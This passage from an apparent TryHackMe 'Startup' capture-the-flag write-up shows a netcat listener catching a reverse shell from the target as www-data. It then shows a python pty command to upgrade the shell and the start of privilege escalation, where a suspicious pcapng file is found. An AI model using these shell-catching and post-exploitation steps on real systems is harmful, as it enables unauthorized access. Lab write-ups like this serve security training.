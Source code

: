 ![](/assets/img/posts/startup/3.png)

before calling the reverse shell set up a listner using `nc`.

```bash
┌──(de4dl0ck㉿kali)-[~/thm/strtup]
└─$ nc -lvnp 1234             
listening on [any] 1234 ...
connect to [10.9.0.144] from (UNKNOWN) [10.10.101.161] 37208
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:06:02 up 33 min,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
spawn a python shell.

```bash
$python -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation:

while going through root directory there is interesting `pcapng` file in `/incidents` directory

```bash
www-data@startup:/$ cd incidents
cd incidents
www-data@startup:/incidents$ ls -la
ls -la
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Sep 22 10:33 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
www-data@startup:/incidents$ 
```
